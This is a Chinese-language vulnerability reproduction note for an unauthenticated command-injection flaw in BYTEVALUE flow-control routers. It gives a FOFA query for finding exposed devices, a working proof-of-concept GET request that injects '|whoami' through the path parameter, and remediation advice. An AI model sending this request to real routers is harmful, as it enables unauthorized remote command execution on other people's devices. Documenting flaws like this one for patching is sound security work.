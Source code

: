 
# 百为智能流控路由器 RCE 漏洞复现

### 0x01 产品简介

 BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。

### 0x02 漏洞概述

百为智能流控路由器 /goform/webRead/open 路由的 ?path 参数存在有回显的命令注入漏洞，未经身份认证的攻击者可以利用此漏洞执行任意指令，获取服务器权限。

### 0x03 复现环境

FOFA：app="BYTEVALUE-智能流控路由器"

![](assets/1701678113-61d12998218e2a22e28d68b2242ac63a.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /goform/webRead/open/?path=|whoami HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

![](assets/1701678113-c083227c4df6f7d30c6d3388e64664ce.png)

### 0x05 修复建议

目前官方已提供解决方案，请关注厂商主页更新：http://www.bytevalue.com/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
